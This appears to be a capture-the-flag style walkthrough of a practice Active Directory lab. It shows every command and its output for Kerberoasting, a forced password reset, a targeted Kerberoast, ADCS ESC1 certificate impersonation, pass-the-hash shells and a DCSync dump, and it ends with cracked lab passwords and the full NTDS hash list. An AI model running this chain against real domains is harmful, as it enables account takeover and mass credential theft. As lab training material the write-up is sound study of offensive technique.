# ⭐ Arasaka — Active Directory Lab Walkthrough

> **Domain:** HACKSMARTER.LOCAL | **DC:** DC01 (10.1.61.116) | **OS:** Windows Server 2022 Build 20348

---

## Table of Contents

1. [Starting Credentials](#starting-credentials)
2. [Enumeration](#enumeration)
   - [Nmap](#nmap)
   - [SMB — Shares](#smb--shares)
   - [Users — RID Brute Force & Enumeration](#users--rid-brute-force--enumeration)
3. [Kerberoasting](#kerberoasting)
4. [BloodHound Enumeration](#bloodhound-enumeration)
5. [ForceChangePassword — alt.svc → YORINOBU](#forcechangepassword--altsvc--yorinobu)
6. [Targeted Kerberoast — YORINOBU → Soulkiller.svc](#targeted-kerberoast--yorinobu--soulkillersvc)
7. [ADCS Enumeration — Certipy (ESC1)](#adcs-enumeration--certipy-esc1)
8. [ESC1 Exploitation — Request Cert as the_emperor](#esc1-exploitation--request-cert-as-the_emperor)
9. [Getting Shell — Evil-WinRM](#getting-shell--evil-winrm)
10. [DCSync — Dumping All Hashes](#dcsync--dumping-all-hashes)
11. [Domain Compromise — Administrator Shell](#domain-compromise--administrator-shell)
12. [Attack Chain Summary](#attack-chain-summary)
13. [All Credentials Discovered](#all-credentials-discovered)
14. [NTDS Hashes](#ntds-hashes)
15. [Tools Reference](#tools-reference)

---

## Starting Credentials

| Field    | Value           |
|----------|-----------------|
| USERNAME | `faraday`       |
| PASSWORD | `hacksmarter123` |

---

## Enumeration

### Nmap

```
53/tcp   open  domain         Simple DNS Plus
88/tcp   open  kerberos-sec   Microsoft Windows Kerberos
135/tcp  open  msrpc          Microsoft Windows RPC
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
389/tcp  open  ldap           Microsoft Windows Active Directory LDAP
                              (Domain: hacksmarter.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
636/tcp  open  ssl/ldap       Microsoft Windows Active Directory LDAP
3268/tcp open  ldap           Microsoft Windows Active Directory LDAP
3389/tcp open  ms-wbt-server  Microsoft Terminal Services
5985/tcp open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp open  mc-nmf         .NET Message Framing

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
```

> **Note:** SMB signing is **required** — relay attacks (NTLM relay / Responder) are not possible.

---

### SMB — Shares

```bash
nxc smb hacksmarter.local -u faraday -p 'hacksmarter123' --shares
```

```
SMB  10.1.61.116  445  DC01  [+] hacksmarter.local\faraday:hacksmarter123
SMB  10.1.61.116  445  DC01  Share      Permissions  Remark
SMB  10.1.61.116  445  DC01  -----      -----------  ------
SMB  10.1.61.116  445  DC01  ADMIN$                  Remote Admin
SMB  10.1.61.116  445  DC01  C$                      Default share
SMB  10.1.61.116  445  DC01  IPC$       READ          Remote IPC
SMB  10.1.61.116  445  DC01  NETLOGON   READ          Logon server share
SMB  10.1.61.116  445  DC01  SYSVOL     READ          Logon server share
```

> No writable non-standard shares found with starting credentials.



---

### Users — RID Brute Force & Enumeration

```bash
nxc smb hacksmarter.local -u faraday -p 'hacksmarter123' --rid-brute
nxc smb hacksmarter.local -u faraday -p 'hacksmarter123' --users
```

**Domain users discovered:**

| Username        | Description                          |
|-----------------|--------------------------------------|
| Administrator   | Built-in admin account               |
| Guest           | Built-in guest account               |
| krbtgt          | Key Distribution Center Service Account |
| Goro            | Loyal to a fault                     |
| alt.svc         | Trapped for eternity                 |
| Yorinobu        | —                                    |
| Hanako          | Waiting at embers                    |
| Faraday         | —                                    |
| Smasher         | —                                    |
| Soulkiller.svc  | Certificate managment for soulkiller AI |
| Hellman         | —                                    |
| kei.svc         | Trapped for eternity                 |
| Silverhand.svc  | Trapped for eternity                 |
| Oda             | —                                    |
| the_emperor     | —                                    |

> **Note:** `Soulkiller.svc` has a certificate-related description — flagged for ADCS enumeration later.




---

## Kerberoasting

```bash
impacket-GetUserSPNs hacksmarter.local/Faraday:'hacksmarter123' \
  -dc-ip 10.1.61.116 -request
```



```
ServicePrincipalName              Name     PasswordLastSet
--------------------------------  -------  -------------------
AI/blackwall.hacksmarter.local    alt.svc  2025-09-21 15:07:42
```

TGS hash obtained for `alt.svc`. Cracked with John the Ripper:

```bash
john alt_svc.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

```
babygirl1    (alt.svc)
1g 0:00:00:06 DONE
```

| Field    | Value      |
|----------|------------|
| USERNAME | `alt.svc`  |
| PASSWORD | `babygirl1` |

---

## BloodHound Enumeration

```bash
nxc ldap hacksmarter.local -u alt.svc -p 'babygirl1' \
  --bloodhound --collection All --dns-server 10.1.61.116
```

```
LDAP  10.1.61.116  389  DC01  [+] hacksmarter.local\alt.svc:babygirl1
LDAP  10.1.61.116  389  DC01  Resolved collection methods: psremote, trusts,
                               container, group, dcom, objectprops, localadmin,
                               session, rdp, acl
LDAP  10.1.61.116  389  DC01  Done in 00M 15S
```



**ACL Path discovered:**

```
alt.svc  --[GenericAll]-->  YORINOBU  --[GenericWrite]-->  Soulkiller.svc
```

- `alt.svc` has **GenericAll** over `YORINOBU` → can reset password
- `YORINOBU` has **GenericWrite** over `Soulkiller.svc` → can set SPN → Targeted Kerberoast
- `Soulkiller.svc` has **enrollment rights** on `AI_Takeover` certificate template (ESC1)



---

## ForceChangePassword — alt.svc → YORINOBU

`GenericAll` grants full control over the target object, including the ability to reset the password without knowing the current one.

```bash
net rpc password "YORINOBU" "Password@" \
  -U "HACKSMARTER"/"alt.svc"%"babygirl1" -S "hacksmarter.local"
```



Verify:

```bash
nxc smb hacksmarter.local -u YORINOBU -p 'Password@'
```

```
SMB  10.1.61.116  445  DC01  [+] hacksmarter.local\YORINOBU:Password@
```

| Field    | Value      |
|----------|------------|
| USERNAME | `YORINOBU` |
| PASSWORD | `Password@` |




---

## Targeted Kerberoast — YORINOBU → Soulkiller.svc

`YORINOBU` has **GenericWrite** over `Soulkiller.svc`. This allows writing a `servicePrincipalName` attribute to the account, making it Kerberoastable. The `targetedKerberoast.py` tool automates this: it adds the SPN, requests the TGS, then cleans up.




```bash
python3 targetedKerberoast.py -v -d 'hacksmarter.local' \
  -u 'YORINOBU' -p 'Password@'
```



```
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (alt.svc)
[VERBOSE] SPN added successfully for (Soulkiller.svc)
[+] Printing hash for (Soulkiller.svc)
[VERBOSE] SPN removed successfully for (Soulkiller.svc)
```

Crack the `Soulkiller.svc` TGS hash:

```bash
john hash2 --wordlist=/usr/share/wordlists/rockyou.txt
```



```
MYpassword123#    (Soulkiller.svc)
1g 0:00:00:06 DONE — 0.1538g/s 1668Kp/s
```

| Field    | Value           |
|----------|-----------------|
| USERNAME | `Soulkiller.svc` |
| PASSWORD | `MYpassword123#` |

---

## ADCS Enumeration — Certipy (ESC1)

```bash
certipy-ad find -u soulkiller.svc@hacksmarter.local \
  -p 'MYpassword123#' -dc-ip 10.1.61.116 -vulnerable
```

```
[*] Found 34 certificate templates
[*] Found 1 certificate authority: hacksmarter-DC01-CA
[*] Found 12 enabled certificate templates
```

**Vulnerable template found:**

```
Template Name          : AI_Takeover
Enabled                : True
Client Authentication  : True
Enrollee Supplies Subj : True      ← ESC1 indicator
Enrollment Rights      : HACKSMARTER.LOCAL\Soulkiller.svc

[!] Vulnerabilities
    ESC1 : Enrollee supplies subject and template allows client authentication.
```

**What this means (ESC1):** The enrollee can supply an arbitrary Subject Alternative Name (UPN), allowing impersonation of any domain user — including Domain Admins. `Soulkiller.svc` has exclusive enrollment rights on `AI_Takeover`.

---

## ESC1 Exploitation — Request Cert as the_emperor

Request a certificate with `the_emperor`'s UPN:

```bash
certipy-ad -debug req \
  -username soulkiller.svc -p 'MYpassword123#' \
  -ca hacksmarter-DC01-CA \
  -target hacksmarter.local \
  -template AI_Takeover \
  -upn THE_EMPEROR@hacksmarter.local \
  -dns 10.1.61.116
```

```
[*] Successfully requested certificate
[*] Got certificate with multiple identities
     UPN: 'THE_EMPEROR@hacksmarter.local'
     DNS Host Name: '10.1.61.116'
[*] Wrote certificate and private key to 'the_emperor_10.pfx'
```

Authenticate using the certificate to retrieve the NT hash:

```bash
certipy-ad auth -pfx the_emperor_10.pfx -dc-ip 10.1.61.116
```

```
[*] Please select an identity:
    [0] UPN: 'THE_EMPEROR@hacksmarter.local'
    [1] DNS Host Name: '10.1.61.116'
> 0
[*] Using principal: 'the_emperor@hacksmarter.local'
[*] Got TGT
[*] Got hash for 'the_emperor@hacksmarter.local':
    aad3b435b51404eeaad3b435b51404ee:d87640b0d83dc7f90f5f30bd6789b133
```

| Field       | Value                                |
|-------------|--------------------------------------|
| USERNAME    | `the_emperor`                        |
| HASH (NT)   | `d87640b0d83dc7f90f5f30bd6789b133`   |

---

## Getting Shell — Evil-WinRM

```bash
evil-winrm -i hacksmarter.local -u the_emperor \
  -H 'd87640b0d83dc7f90f5f30bd6789b133'
```

```
Evil-WinRM shell v3.7
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\the_emperor\Documents>
```

---

## DCSync — Dumping All Hashes

```bash
impacket-secretsdump hacksmarter.local/'the_emperor'@10.1.100.99 \
  -hashes ':d87640b0d83dc7f90f5f30bd6789b133' -just-dc
```


```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[*] Kerberos keys grabbed
```

---

## Domain Compromise — Administrator Shell

```bash
evil-winrm -i 10.1.100.99 -u administrator \
  -H '4366ec0f86e29be2a4a5e87a1ba922ec'
```


```
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
hacksmarter\administrator
```

> ✅ **DOMAIN FULLY COMPROMISED — root.txt retrieved**

---

## Attack Chain Summary

| # | Technique              | From → To                          | Tool                              |
|---|------------------------|------------------------------------|-----------------------------------|
| 1 | Initial Access         | Given → faraday                    | hacksmarter123 (given)            |
| 2 | SMB Enumeration        | faraday → user list                | NetExec (--shares, --rid-brute, --users) |
| 3 | Kerberoasting          | faraday → alt.svc                  | impacket-GetUserSPNs + John       |
| 4 | BloodHound             | alt.svc → ACL graph                | NetExec --bloodhound              |
| 5 | ForceChangePassword    | alt.svc → YORINOBU                 | net rpc password                  |
| 6 | Targeted Kerberoast    | YORINOBU → Soulkiller.svc          | targetedKerberoast.py + John      |
| 7 | ADCS Enum (ESC1)       | Soulkiller.svc → AI_Takeover       | certipy-ad find -vulnerable       |
| 8 | ESC1 Cert Request      | Soulkiller.svc → the_emperor cert  | certipy-ad req                    |
| 9 | PKINIT Auth            | cert → the_emperor NTLM hash       | certipy-ad auth                   |
| 10 | WinRM Shell           | the_emperor → DC shell             | Evil-WinRM                        |
| 11 | DCSync                | the_emperor → all NTLM hashes      | impacket-secretsdump              |
| 12 | DA Shell + root.txt   | Administrator → domain owned       | Evil-WinRM                        |

---

## All Credentials Discovered

| Username        | Password / Hash                        | Method                              |
|-----------------|----------------------------------------|-------------------------------------|
| `faraday`       | `hacksmarter123`                       | Starting credentials (given)        |
| `alt.svc`       | `babygirl1`                            | Kerberoasting + John                |
| `YORINOBU`      | `Password@`                            | GenericAll ForceChangePassword      |
| `Soulkiller.svc`| `MYpassword123#`                       | Targeted Kerberoast + John          |
| `the_emperor`   | `d87640b0d83dc7f90f5f30bd6789b133`     | ESC1 (ADCS) + certipy-ad auth       |
| `Administrator` | `4366ec0f86e29be2a4a5e87a1ba922ec`     | DCSync via the_emperor              |

---

## NTDS Hashes

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4366ec0f86e29be2a4a5e87a1ba922ec:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5b5ca92b15454ff09ae4706e59e82509:::
hacksmarter.local\Goro:1111:aad3b435b51404eeaad3b435b51404ee:74aa71bbd61e2ac88ef81aec8b2932d8:::
hacksmarter.local\alt.svc:1113:aad3b435b51404eeaad3b435b51404ee:26e86ef5628e57b3a35c38ef272e7081:::
hacksmarter.local\Yorinobu:1117:aad3b435b51404eeaad3b435b51404ee:fb54d1c05e301e024800c6ad99fe9b45:::
hacksmarter.local\Hanako:1125:aad3b435b51404eeaad3b435b51404ee:26e14945d3929d414e802323aae07735:::
hacksmarter.local\Faraday:1126:aad3b435b51404eeaad3b435b51404ee:f96db678a7003749059f37636a679da8:::
hacksmarter.local\Smasher:1128:aad3b435b51404eeaad3b435b51404ee:97fdd74acb15fa25e00e2c20b8175d36:::
hacksmarter.local\Soulkiller.svc:1129:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
hacksmarter.local\Hellman:1132:aad3b435b51404eeaad3b435b51404ee:c10a625c84b126ac93303c186d7379b9:::
hacksmarter.local\kei.svc:1134:aad3b435b51404eeaad3b435b51404ee:c87f74fac72377f1ca1b32d7d4496fc7:::
hacksmarter.local\Silverhand.svc:1144:aad3b435b51404eeaad3b435b51404ee:847fafaf6185ce056a861446259b4b03:::
hacksmarter.local\Oda:1149:aad3b435b51404eeaad3b435b51404ee:47a78a8e02ff7d04b18d40224d2a3993:::
hacksmarter.local\the_emperor:1601:aad3b435b51404eeaad3b435b51404ee:d87640b0d83dc7f90f5f30bd6789b133:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:81405f2c84f4d494842252ec85e9b3b9:::
```

---

## Tools Reference

| Tool                    | Purpose                                                                 |
|-------------------------|-------------------------------------------------------------------------|
| `NetExec (nxc)`         | SMB/LDAP enumeration, BloodHound collection, user/share discovery       |
| `impacket-GetUserSPNs`  | Kerberoasting — request TGS for SPN-registered accounts                 |
| `John the Ripper`       | Offline hash cracking with rockyou.txt wordlist                         |
| `BloodHound / neo4j`    | AD relationship mapping and attack path discovery                       |
| `net rpc password`      | ForceChangePassword via RPC (GenericAll abuse)                          |
| `targetedKerberoast.py` | GenericWrite → write SPN → targeted Kerberoast → crack                  |
| `certipy-ad`            | ADCS enumeration (-vulnerable), certificate request (req), auth (auth)  |
| `impacket-secretsdump`  | DCSync — dump NTDS.DIT via DRSUAPI                                      |
| `Evil-WinRM`            | Remote shell over WinRM (port 5985) using password or hash              |